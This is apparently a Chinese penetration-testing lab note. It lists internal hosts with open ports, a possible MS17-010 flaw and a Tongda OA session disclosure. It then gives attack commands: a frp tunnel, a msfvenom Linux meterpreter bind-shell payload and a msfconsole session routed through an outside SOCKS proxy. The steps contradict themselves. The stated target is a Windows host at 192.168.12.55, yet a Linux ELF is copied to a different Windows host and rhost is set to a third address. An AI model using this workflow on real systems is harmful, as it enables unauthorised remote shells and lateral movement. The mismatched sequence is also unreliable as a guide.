 信息再整理

```
192.168.10.110
 - 80 None
 - 8983 solr 
192.168.10.111  WORKGROUP\scene  Windows Server 2008 R2 Enterprise 7600
 - 3306
 - 135
 - 8080 xx系统测试网站(TinyShop v3.1.1)
 - 139
192.168.10.254
 - 443
 - 80 HILLSTONE NETWORKS
 - 22
192.168.12.55 WORKGROUP\WIN-K6ADOBJJ665  Windows Server 2008 R2 Datacenter 7601 Service Pack 1
	可能存在 MS17-010
 - 80 通达OA 存在 tongda-user-session-disclosure
 - 445
 - 135
 - 139
192.168.12.50
 - 80 Apache2 Ubuntu Default Page: It works
 - 3306
 - 22
```

先尝试打一下`192.168.12.55`的`MS17-010`

先搭建`frp`代理

```bash
# 192.168.10.111
frpc -c frpc.ini

# 本机
frps.exe -c frps.ini 
```

再用`msf`生成正向连接木马

```bash
msfvenom -p linux/x64/meterpreter/bind_tcp LHOST=xxx.xxx.xxx.xxx LPORT=4444 -f elf -o test
```

用`wget`传输到`192.168.10.111`

`msf`进行监听

```bash
msfconsole
setg proxies socks5:99.99.99.165:6666
set payload linux/x64/meterpreter/bind_tcp
set rhost 192.168.10.110
exploit
```
